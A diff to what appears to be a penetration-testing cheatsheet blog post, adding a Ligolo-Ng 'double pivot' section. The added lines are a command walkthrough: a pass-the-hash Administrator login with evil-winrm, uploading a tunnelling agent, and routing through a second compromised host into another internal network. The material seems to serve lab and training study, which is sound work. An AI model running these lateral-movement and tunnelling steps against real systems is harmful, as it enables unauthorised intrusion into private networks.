

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-10-31-Ligolo-Ng-Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 4416 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2024-10-31-Ligolo-Ng-Cheatsheet.md

````diff
--- a/_posts/2024-10-31-Ligolo-Ng-Cheatsheet.md
+++ b/_posts/2024-10-31-Ligolo-Ng-Cheatsheet.md
@@ -123,3 +123,43 @@
 
 # Now we successfully got a shell from the Host B (172.16.50.20) to our Kali
 ```
+
+## Easy Double Pivot
+### Establishing the Second Pivot
+Given the following situation:
+- We got access to the first internal network (172.16.150.0/24) through Administrator access at Pivot Host A (172.16.150.10).
+- The Host B as access to another internal network (172.16.200.0/24).
+- We will set a Second Pivot at Host B (172.16.150.20) to access the second internal network (172.16.200.0/24).
+
+To achieve that, we can do the following:
+```shell
+# Connect with evil-winrm
+evil-winrm -i 172.16.150.10 -u Administrator -H <NTLM_hash>
+
+# Upload ligolo-ng agent.exe
+upload agent.exe
+
+# Set up a new ligolo interface on Kali
+sudo ip tuntap add user Vorkharium mode tun ligolo2
+sudo ip link set ligolo2 up
+
+# Add the second internal network
+sudo ip route add 172.16.200.0/24 dev ligolo2
+
+# On the Ligolo-Ng current session, create a new listener connecting to the Port 11601 of the first session
+listener_add --addr 0.0.0.0:11601 --to 0.0.0.0:11601
+
+# Run the agent.exe to create a connection from the Second Pivot Host to the First Pivot Host
+./agent.exe --connect 172.16.150.10:11601 -ignore-cert
+
+# On Ligolo-Ng console - Show sessions
+ligolo-ng » session
+
+# Select the new session created from the Second Pivot Host
+? Specify a session : 2 # automotors\Administrator@DC01 (Example of the name of the second pivot host)
+
+# Start new Ligolo-Ng session using the new interface "ligolo2" so it won't interfere with the first interface "ligolo"
+[Agent : automotors\Administrator@DC01] » start --tun ligolo2
+
+# Now we can access the second internal network 172.16.200.0/24
+```
````
